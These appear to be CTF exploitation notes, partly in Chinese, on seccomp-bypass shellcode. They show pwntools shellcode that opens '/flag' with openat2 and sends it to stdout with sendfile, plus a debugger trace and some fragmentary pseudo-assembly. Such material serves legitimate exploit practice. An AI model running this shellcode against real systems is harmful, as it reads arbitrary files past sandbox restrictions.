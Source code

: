 ‍

```python
sc1 = '''
add rsp,0x200
'''
sc2 = shellcraft.pushstr('/flag') + '''
push rsp
pop rsi

/* dirfd (AT_FDCWD) */
mov rdi, -100

/* how 结构体的指针 */
push 0
push 0
push 0
push rsp
pop rdx

/* 结构体大小 */
mov r10, 0x18
mov rax, 437
syscall
'''
```

‍

### sendfile

```python
rax,0x28
rdi,out_fd # 1 stdout 标准输出
rsi,in_fd # file 2
rdx,0
syscall


send_file(out_fd, in_fd, offset, count);
```

```python
 ► 0x7ffee1f883a3    syscall  <SYS_sendfile>
        out_fd: 0x1   #rdi
        in_fd: 0x3    #rsi  # sys_open 获取的fd
        offset: 0x0    # ??? rdx
        count: 0x7fffffff
```

```python
asm(shellcraft.sendfile(1,'rax',0,0x50))
```

### 		mprotect

